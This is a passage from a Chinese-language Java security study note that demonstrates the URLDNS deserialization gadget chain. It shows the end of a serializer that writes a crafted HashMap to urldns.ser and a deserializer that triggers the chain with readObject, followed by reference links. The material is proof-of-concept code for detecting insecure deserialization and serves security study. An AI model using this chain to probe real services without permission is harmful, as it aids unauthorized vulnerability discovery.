 ```
        f.set(url,-1);

        try{
            // 序列化对象
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
            outputStream.writeObject(map);
            outputStream.close();
            fileOutputStream.close();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

### 反序列化代码
`UrlDnsDeSer.java`

```
package org.vulhub;


import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class UrlDnsDeSer {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 反序列化对象
        FileInputStream fileInputStream = new FileInputStream("./urldns.ser");
        ObjectInputStream ois = new ObjectInputStream(fileInputStream);

        ois.readObject();
    }
}
```

执行完反序列化代码以后：

![image](https://user-images.githubusercontent.com/84888757/204579711-abc51af5-45c0-4a72-a93f-57e6e29902b8.png)


## 参考链接
- [Ghost2097221/security_study_notes/S02-URLDNS反序列化构造链.pdf](https://github.com/Ghost2097221/security_study_notes/blob/master/S02-URLDNS%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%9E%84%E9%80%A0%E9%93%BE.pdf)
- [Java安全漫谈 - 08.认识最简单的Gadget——URLDNS @phith0n](https://t.zsxq.com/ieMZBQj)


